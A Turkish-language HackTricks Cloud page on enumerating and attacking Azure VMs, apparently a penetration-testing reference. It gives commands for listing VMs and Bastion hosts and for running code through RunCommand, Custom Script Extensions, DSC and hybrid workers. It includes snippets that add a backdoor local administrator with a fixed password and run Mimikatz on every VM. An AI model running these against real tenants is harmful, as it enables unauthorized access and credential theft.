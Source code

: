 # Az - Sanal Makineler & Ağ

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel bilgiler

[Belgelerden:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure sanal makineleri, Azure'un sunduğu birkaç tür [talep üzerine, ölçeklenebilir hesaplama kaynaklarından](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) biridir. Genellikle, diğer seçeneklerin sunduğundan daha fazla kontrol gerektiğinde bir sanal makine seçersiniz. Bu makale, bir sanal makine oluşturmadan önce dikkate almanız gerekenler, nasıl oluşturulacağı ve nasıl yönetileceği hakkında bilgi verir.

## Azure Ağ Bilgileri

Azure ağları **farklı varlıklar ve bunları yapılandırma yolları** içerir. Farklı Azure ağ varlıklarının kısa **tanımları,** **örnekleri** ve **enumeration** komutlarını bulabilirsiniz:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**, Azure portalı üzerinden SSL aracılığıyla güvenli, tamamen yönetilen RDP (Uzak Masaüstü Protokolü) ve SSH (Güvenli Kabuk) erişim çözümü sunar. Azure Sanal Ağı içinde entegre edilmiştir ve özel IP'ler kullanarak VM'lere RDP ve SSH bağlantısı sağlar, bu da genel IP'lere ihtiyaç duymadan yapılmasını sağlar. Bu, genel IP atamaları ve VM erişimi için NSG kural yapılandırmaları içeren geleneksel yöntemlere göre daha güvenli ve daha uygun bir alternatif sunar. Geliştiriciler ve BT personeli, geliştirme ve test ortamları için süreci kolaylaştırarak web tarayıcılarını kullanarak Azure portalından VM'lere güvenli bir şekilde erişebilirler.

Aboneliğinizdeki tüm Azure Bastion Host'larını listelemek için aşağıdaki komutu kullanabilirsiniz:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Sayımı
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VM'de komut çalıştırma**

### **VM'de AAD Girişi**

AzureAD üzerinden kimlik doğrulaması yapılmış kullanıcılara erişim izni vermek mümkündür. Örneğin bir **linux VM**'ye erişmeye çalışırken: `ssh username@azure-corp.com@1.1.1.1` (giriş yapmaya çalışırken kullanılan azurecorp ile **e-posta** kullanmak önemlidir) şu hatayı alabilirsiniz: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Sadece **bu talimatları takip edin** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) adresine giderek ve kodu belirterek, e-posta ve şifreyi kimlik bilgileri olarak kullanarak SSH ile bağlanabileceksiniz (eğer o kullanıcının bunu yapacak yeterli yetkisi varsa: `Virtual Machine Administrator Login` veya `Virtual Machine User Login` rolü).

### **Komut Çalıştır**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Özel Betik Uzantısını Çalıştır**

Azure sanal makine (VM) uzantıları, **Azure VM'lerinde** dağıtım sonrası yapılandırma ve otomasyon **görevleri** sağlayan **küçük uygulamalardır**. Örneğin, bir sanal makinenin yazılım kurulumu, antivirüs koruması veya içinde bir betik çalıştırma yeteneğine ihtiyacı varsa, bir VM uzantısı kullanabilirsiniz.

Bu nedenle, yazma erişiminiz varsa, rastgele kod çalıştırabilirsiniz:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC), kod aracılığıyla bir ana bilgisayarı kurmak için kullanılan Ansible'a benzer bir PowerShell aracıdır. DSC, belirli yapılandırma dosyalarının yüklenmesine olanak tanıyarak Azure ile entegre olur. Bu dosyaların katı bir sözdizimine uyması gerekmektedir. Özellikle, Azure'daki DSC uzantısı, belirli biçimlendirme kriterlerini karşılayan dosyalardan komutları çalıştırabilir; bu, sağlanan şekilde gösterildiği gibi, DSC standartları için sözdizimi doğru olmasa bile mümkündür.

Bu komutların yürütülmesi, Az PowerShell'deki [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) işlevi ile kolaylaştırılır. Gereksinimler arasında tanımlı bir işlev içeren bir **.PS1** dosyası ve dosyanın **.zip** dosyasına sıkıştırılması yer alır. Sözdizimi DSC için doğru olmasa bile, kod yine de çalışacaktır. Ancak, uzantı yürütme durumunu "başarısızlık" olarak işaretleyecek ve komuttan hiçbir çıktı görünmeyecektir çünkü durum, başarısızlık mesajı tarafından üzerine yazılacaktır.

### VM Uygulama Tanımları

VM Uygulama Tanımları, sürümlü uygulamaların bir Azure VM'ye tekrarlanabilir bir şekilde dağıtılmasına olanak tanır. Bu kaynak, uygulamaların VM'ler arasında dağıtımını ve güncellenmesini destekler. Bunu ayarlamak için, Az PowerShell'de **`New-AzGalleryApplication`** ve **`New-AzGalleryApplicationVersion`** gibi komutları içeren birkaç adım gereklidir.

Bu yöntemle uygulamaların veya komutların yürütülmesi, bir uygulama bir VM'ye uygulandığında otomatik olarak kurulan **"VMAppExtension"** aracılığıyla gerçekleştirilir. Uzantı, dosyayı belirtilen URI'den alır ve dosyayı tam olarak uygulama adıyla, uzantı olmadan adlandırır. Dosyanın doğru bir şekilde yürütülmesi için, REST API çağrısındaki "ManageActions" alanının dosyayı uygun uzantıyla yeniden adlandıracak şekilde yapılandırılması gerekir. Bu yöntemin kurulumu tamamlandığında, sağlanan şekilde gösterilen yapıya benzeyecektir.

Ancak, bu yürütme yöntemi nispeten yavaştır; bir uygulama veya komutun yürütülmesi yaklaşık 3-4 dakika sürer. Bu süreçle ilgili dosyalar belirli dizinlerde saklanır (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` uygulama kopyası için ve `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` yürütme durumu için).

Her iki teknik de Azure ortamlarında komutları yürütme ve uygulamaları dağıtma konusunda benzersiz yollar sunar; her birinin kendine özgü gereksinimleri, adımları ve dikkate alınması gereken hususları vardır.

### Azure'daki Hibrit Çalışan Grupları (HWG'ler)

[**Hibrit Çalışan Grupları (HWG'ler)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker), bir Otomasyon Hesabında yapılandırılan Runbook'ların, belirlenen HWG'nin bir parçası olan bir Azure Sanal Makinesi (VM) üzerinde yürütülmesine olanak tanıyan bir Azure özelliğidir. Bu yürütme, VM üzerinde Runbook kodunu dağıtan bir uzantı aracılığıyla kolaylaştırılır. Bu sürecin önemli bir yönü, gerçek kimlik bilgilerin yürütmede bir faktör olmamasıdır çünkü kod, yükseltilmiş ayrıcalıklarla, özellikle **SYSTEM** veya root olarak çalışır; bu, sağlanan şekilde gösterilmiştir.

Windows 10 VM'leri kullananlar için kritik bir detay, Runbook için PowerShell sürümünü belirtme gerekliliğidir. PowerShell Sürüm 5.1 olarak çalışacak şekilde ayarlanmalıdır; 7.1 yerine. Bu gereklilik, PowerShell 7.1'in bu VM'lerde varsayılan olarak yüklü olmamasından kaynaklanmaktadır; bu nedenle 7.1 sürümü belirtilirse, betik yürütme başarısız olur.

Azure'ın bu özelliği, hibrit ortamlarda görevleri otomatikleştirmek ve yönetmek için sağlam bir yöntem sunar; Azure VM'leri üzerinde merkezi yönetim ve görev yürütme olanağı sağlar.

## Referanslar

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
